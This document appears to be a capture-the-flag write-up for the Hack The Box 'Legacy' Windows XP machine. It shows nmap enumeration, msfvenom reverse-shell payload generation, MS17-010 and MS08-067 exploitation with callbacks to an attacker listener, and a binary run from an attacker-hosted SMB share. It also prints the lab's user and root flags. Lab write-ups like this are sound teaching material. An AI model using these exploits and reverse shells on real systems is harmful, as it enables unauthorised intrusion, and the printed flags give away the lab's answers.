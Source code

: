 ## Information

| Property     | Value                       |
|--------------|-----------------------------|
| **Name**     | Legacy  |
| **IP Address**|   10.10.10.4     |
| **OS**       |  Windows       |
| **Difficulty**| Easy   |

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -oN nmap_scan.txt -Pn 
```

```bash
PORT      STATE    SERVICE      REASON      VERSION
135/tcp   open     msrpc        syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn  syn-ack     Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds syn-ack     Microsoft Windows XP microsoft-ds
1455/tcp  filtered esl-lm       no-response
2005/tcp  filtered deslogin     no-response
2100/tcp  filtered amiganetfs   no-response
3001/tcp  filtered nessus       no-response
3971/tcp  filtered lanrevserver no-response
7778/tcp  filtered interwise    no-response
8654/tcp  filtered unknown      no-response
38292/tcp filtered landesk-cba  no-response
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: 5d01h57m38s
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:1d:4a (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 1d 4a 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 29232/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50902/udp): CLEAN (Failed to receive data)
|   Check 4 (port 28326/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)


```

## Initial Access


#### Port [445] - [SMB]
#### MS17-010 - Eternal Blue (Metasploit - Fail) 

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run 

[*] Started reverse TCP handler on 192.168.205.223:4444 
[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1 x86 (32-bit)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.4:445 - The target is vulnerable.
[-] 10.10.10.4:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

#### MS17-010 - Manual ([helviojunior](https://github.com/helviojunior) Fork)

The exploitation is achieved after 2 steps, payload generation and payload staging and execution: 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.14.5_4444.exe
```

Payload staging and execution using a [send_and_execute.py](https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py) script made by helviojuinor: 

```bash 
python2 send_and_execute.py 10.10.10.4 ../venom/rev_10.10.14.5_4444.exe
```

Setting up a listener using two methods, nc and meterpreter handler: 

##### nc 

```bash
nc -nlvp 4444
```

##### MSF - exploit/multi/handler

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Command shell session 1 opened (10.10.14.5:4444 -> 10.10.10.4:1075) at 2023-11-16 16:12:46 +0100

Shell Banner:
Microsoft Windows XP [Version 5.1.2600]
-----  
C:\WINDOWS\system32>

```

#### MS08-067

> This security update resolves a privately reported vulnerability in the Server service. The vulnerability could allow remote code execution if an affected system received a specially crafted RPC request. On Microsoft Windows 2000, Windows XP, and Windows Server 2003 systems, an attacker could exploit this vulnerability without authentication to run arbitrary code.
> https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > run
[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.4:1035) at 2023-11-16 11:56:46 +0100
meterpreter > shell
Process 224 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\WINDOWS\system32> 
```

Running whoami command to get the current user failed.

```
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

We can deliver our own whoami.exe and execute it. 

```bash 
# Hosting our own whoami.exe from an smb server ~/tools/win_privesc/windows-binaries
sudo python /usr/local/bin/smbserver.py smb .

# Executing it from the share 

C:\WINDOWS\system32>\\10.10.14.5\smb\whoami.exe
\\10.10.14.5\smb\whoami.exe
NT AUTHORITY\SYSTEM

```

### User Access

Running as NT AUTHORITY\SYSTEM gives us the ability to retrieve both flags
#### User Flag

```
e69af0e4f443de7e36876fda4ec7644f
```

## Privilege Escalation

-
#### Root Flag

```powershell
C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\Administrator\Desktop

16/03/2017  08:18 ��    <DIR>          .
16/03/2017  08:18 ��    <DIR>          ..
16/03/2017  08:18 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   6.385.569.792 bytes free

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
C:\Documents and Settings\Administrator\Desktop>
```

## Conclusion


## Additional Notes
- 

## Resources
- 